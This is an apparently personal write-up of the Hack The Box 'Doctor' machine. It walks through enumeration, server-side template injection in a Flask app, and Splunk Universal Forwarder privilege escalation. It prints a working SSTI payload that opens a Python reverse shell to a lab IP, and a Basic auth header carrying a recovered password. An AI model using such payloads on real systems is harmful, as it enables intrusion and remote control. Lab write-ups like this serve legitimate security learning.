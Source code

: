 Doctor


![img](/assets/images/htb/doctor/0.png)

### Port Scanning and general enumeration (Nmap, FFuF)
* Reading/Resources
  * [Nmap manual](https://nmap.org/book/man.html)
  * [FFuF](https://github.com/ffuf/ffuf)



![img](/assets/images/htb/doctor/1.png)

Interesting. `8089` port for `Splunkd`. Doing some reasearch I found out that this port is for the [Splunk Universal Forwarder](https://docs.splunk.com/Documentation/Forwarder/8.1.1/Forwarder/Abouttheuniversalforwarder). Let's keep this in mind for later.

Standard enumeration of the site on port `80` doesn't reveal anything great, but there is an interesting thing to note


![img](/assets/images/htb/doctor/2.png)

`doctors.htb`.. let's update our `/etc/hosts` file and point `10.10.10.209` to `doctors.htb`


![img](/assets/images/htb/doctor/3.png)

New things to play with! Let's toss ffuf at this while we poke around

`ffuf -u doctors.htb/FUZZ -w /path/to/wordlist -c`


![img](/assets/images/htb/doctor/4.png)

Let's create an account and see what this app is all about.


![img](/assets/images/htb/doctor/5.png)

Testing different payloads for different exploits gave us nothing in return at first glance. But if we go back and check the `archive` endpoint and check the source we see something interesting..


![img](/assets/images/htb/doctor/6.png)




Ah! Vulnerable to SSTI!


### Access (SSTI, reverse shell)
* Reading/Resources
  * [SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
  * [Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

I actually covered this in a writeup for a CTF Challenge from [Hacktivitycon2020](https://www.tsustyle.com/hacktivitycon2020/) called [Template Shack](https://www.tsustyle.com/hacktivitycon2020/templateshack/). This time, though, instead of using slicing to find where `subprocess.Popen` is, we'll use this handy payload I found on [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)


![img](/assets/images/htb/doctor/7.png)

After editing it a bit so that it makes a call back to our machine:

```Python
.builtins'import'.popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.36",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh", "-i"]);'").read()
```

We can use that as our `title`, whatever you want for the body and make the post.

Fire up a listener on your box and reload the `archive` tab.


### Privesc (linPEAS, Spelunker)
* Reading/Resources
  * [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
  * [Spelunker](https://github.com/tevora-threat/splunk_local_privesc/blob/master/spelunker.sh)

So now we have a shell on the box. Let's see what linPEAS says.

Interesting log file entry


![img](/assets/images/htb/doctor/8.png)

Doesn't look like an email. Maybe the `shaun` user's password? Turns out that it is. Strange.


![img](/assets/images/htb/doctor/9.png)

Let's take a look at port `8089` again. As I mentioned earlier, it's for the [Splunk Universal Forwarder](https://docs.splunk.com/Documentation/Forwarder/8.1.1/Forwarder/Abouttheuniversalforwarder). There's some exploits floating around for it, including a local privilege escalation that we're going to use.

First, we need to update the `Spelunker` script, because the script assumes that the creds are `admin:changeme`.

This is what we need to change:

`Authorization: Basic YWRtaW46Y2hhbmdlbWU=`

to

`Authorization: Basic c2hhdW46R3VpdGFyMTIz`

Get the script on to the box, give it the `x` flag and run it.

Follow the instructions to root!


![img](/assets/images/htb/doctor/10.png)
